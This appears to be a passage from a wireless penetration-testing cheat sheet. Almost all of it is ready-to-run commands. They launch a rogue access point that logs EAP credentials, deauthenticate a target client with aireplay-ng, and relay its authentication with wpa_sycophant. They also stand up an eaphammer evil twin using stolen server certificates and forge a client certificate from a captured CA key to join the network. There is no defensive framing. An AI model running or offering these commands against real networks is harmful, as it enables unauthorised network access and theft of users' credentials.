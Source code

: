 #### Execute Relay Attack

```bash
# Terminal 1: Launch rogue AP with relay capability
cd ~/tools/berate_ap/
./berate_ap --eap --mana-wpe --wpa-sycophant --mana-credout outputMana.log wlan1 lo [TARGET_NETWORK]

# Terminal 2: Deauth target client
iwconfig wlan0mon channel [CHANNEL]
aireplay-ng -0 0 wlan0mon -a [AP_MAC] -c [CLIENT_MAC]

# Terminal 3: Execute relay
cd ~/tools/wpa_sycophant/
./wpa_sycophant.sh -c relay.conf -i wlan3

# Terminal 4: Get IP once connected
dhclient wlan3 -v
```

### Certificate-Based Attacks

#### Using Legitimate Certificates

```bash
# Import legitimate certificates (obtained through previous attacks)
cd /root/tools/eaphammer
python3 ./eaphammer --cert-wizard import --server-cert server.crt --ca-cert ca.crt --private-key server.key --private-key-passwd whatever

# Launch rogue AP with legitimate certificates
python3 ./eaphammer -i wlan4 --auth wpa-eap --essid [NETWORK_NAME] --creds --negotiate balanced
```

#### Client Certificate Generation

```bash
# Generate client certificate using CA
openssl genrsa -out client.key 2048
openssl req -config client.conf -new -key client.key -out client.csr
openssl x509 -days 730 -extfile client.ext -CA ca.crt -CAkey ca.key -CAserial ca.serial -in client.csr -req -out client.crt

# Create connection profile
cat > wpa_tls.conf << EOF
network={
    ssid="[NETWORK_NAME]"
    scan_ssid=1
    mode=0
    proto=RSN
    key_mgmt=WPA-EAP
    auth_alg=OPEN
    eap=TLS
    identity="[DOMAIN\USERNAME]"
    ca_cert="./ca.crt"
    client_cert="./client.crt"
    private_key="./client.key"
    private_key_passwd="whatever"
}
EOF

wpa_supplicant -Dnl80211 -i wlan4 -c wpa_tls.conf &
dhclient wlan4 -v
```
